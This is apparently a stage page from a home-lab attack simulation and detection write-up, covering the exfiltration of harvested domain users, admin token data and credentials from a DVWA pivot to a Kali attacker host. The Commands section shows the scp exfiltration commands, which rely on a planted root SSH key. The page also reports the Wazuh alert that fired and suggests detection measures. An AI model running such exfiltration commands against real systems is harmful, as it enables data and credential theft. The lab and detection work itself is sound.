


# Stage 19 — Exfiltration

> **Status:** Complete — evidence attached  
> **Case:** [Case 03](../../04-Investigation/Cases/case-03-domain-compromise.md)  
> **Investigation:** [Phase 6 Deep Dive](../../04-Investigation/Deep-Dive-Attack-Chain-Investigation.md#phase-6-backdoors--smuggling-domain-persistence--rapid-exfiltration)  
> **Evidence:** [attack](../../06-Resources/screenshots/attack-simulation/56.png) · [alert](../../06-Resources/screenshots/thehive-alert/19.png)

## Objective

Exfiltrate the harvested domain users, administrative token dumps, and sensitive corporate files from our DVWA pivot host out of the enterprise perimeter to our external Kali machine using SCP over an encrypted SSH connection.

## Commands

```bash
# Execute from external attacker machine (Kali Linux)
# Exfiltrate Active Directory domain user roster
scp root@192.168.56.30:/tmp/domain_users.txt /tmp/

# Exfiltrate administrative privilege and security context information
scp root@192.168.56.30:/tmp/admin_info.txt /tmp/

# Exfiltrate consolidated workstation sensitive data (financials and credentials)
scp root@192.168.56.30:/tmp/sensitive_data.txt /tmp/
```

## What happened

With all stolen intelligence staged in `/tmp` on the DVWA pivot (`192.168.56.30`), the final data movement was pulling it across the perimeter onto our external Kali attack machine (`192.168.232.135`):

1. **Pulling the files over SCP:** Using the persistent root SSH key we planted in Stage 08, I ran three sequential `scp` commands from Kali:
   - `scp root@192.168.56.30:/tmp/domain_users.txt /tmp/`: Transferred the entire domain user list (63 KB).
   - `scp root@192.168.56.30:/tmp/admin_info.txt /tmp/`: Transferred the full administrative token and privilege report (6.5 KB).
   - `scp root@192.168.56.30:/tmp/sensitive_data.txt /tmp/`: Transferred the consolidated corporate records and stored credentials (`financials.txt` and `passwords.txt`).
2. **Encrypted transit vs. host detection:** Because all transfers happened over SSH, the file contents were completely encrypted in transit, meaning network intrusion signatures looking for plaintext keywords ('passwords', 'financials') saw nothing on the wire. However, the flurry of 6 rapid root SSH logins within 574 milliseconds triggered Wazuh Rule 5715 on DVWA, which alerted in TheHive (Alert #37).

## Evidence

### Attack Execution Screenshots


*Figure 19.1: Successful exfiltration of domain_users.txt, admin_info.txt, and sensitive_data.txt via SCP to Kali attacker machine.*

### Detection & Alert Screenshots


*Figure 19.2: TheHive Alert #37 (`wzb-34f34a857c` / screenshot `19.png`) capturing rapid successive SSH successful authentications (6 sessions in 0.57s) for root from attacker IP 192.168.232.135.*

## Alert observed

| Source | Rule / Event Description | Rule ID | TheHive Alert Title | Severity | Status |
|---|---|---|---|---|---|
| Wazuh / Linux SSH (`DVWA`) | sshd: authentication success (6 sessions within 0.57s) | 5715 (Level 8) | TheHive Alert #37 (`19.png` / `wzb-34f34a857c`) — `[6x] [DVWA] Logon activity: ROOT @ 192.168.232.135` | Medium (2) | **Detected (Direct Detection & SOAR Delivery)** |

> [!NOTE]
> **Detection Assessment:** The SSH transport layer successfully encrypted the payload content, meaning network intrusion signatures looking for plaintext keyword matches (e.g., "passwords", "financials") did not fire on the egress traffic. However, Wazuh's host-level monitoring on the DVWA pivot recorded the anomalous burst of 6 rapid root SSH authentications within a 574-millisecond window (`12:47:30.437` to `12:47:31.011`), immediately triggering TheHive alert grouping for investigative triage.

## MITRE ATT&CK

| Tactic | Technique | Sub-technique | ID |
|---|---|---|---|
| Exfiltration | Exfiltration Over C2 Channel | | T1041 |
| Exfiltration | Exfiltration Over Alternative Protocol | Exfiltration Over Symmetric Encrypted Non-C2 Protocol | T1048.002 |
| Command and Control | Encrypted Channel | Asymmetric Cryptography / SSH | T1573.002 |

## Detection opportunities

- **High-Frequency SSH Authentication Burst Detection:** Alert when a single external IP address initiates multiple successful SSH sessions within a brief time window (e.g., >3 logins within 2 seconds).
- **Abnormal Outbound Data Transfer Volume:** Configure NetFlow/Zeek or Suricata alerts for anomalous outbound data volume transfers from internal web servers to non-standard or external subnets.
- **File Read Auditing on Staging Directories:** Utilize Linux `auditd` to monitor read events (`-w /tmp/ -p r`) on temporary directories by SSH child processes (`scp`, `sftp-server`).
- **Pivot Host Egress Filtering:** Restrict internal pivot server egress traffic at the firewall layer to strictly authorized destination ports, disabling direct outbound SSH access to external networks.

## Notes

- **Attacker Egress Destination:** `192.168.232.135` (Kali Linux)
- **Source Pivot Host:** `192.168.56.30` (DVWA)
- **Transport Mechanism:** SCP over OpenSSH (TCP port 22)
- **Exfiltrated Assets:**
  - `domain_users.txt` — 63 KB (Active Directory domain users)
  - `admin_info.txt` — 6,522 bytes (Privilege and token inventory)
  - `sensitive_data.txt` — 31 bytes (Confidential financials and plaintext passwords)
- **Impact Assessment:** Full loss of confidentiality regarding Active Directory domain structure and target workstation credentials.
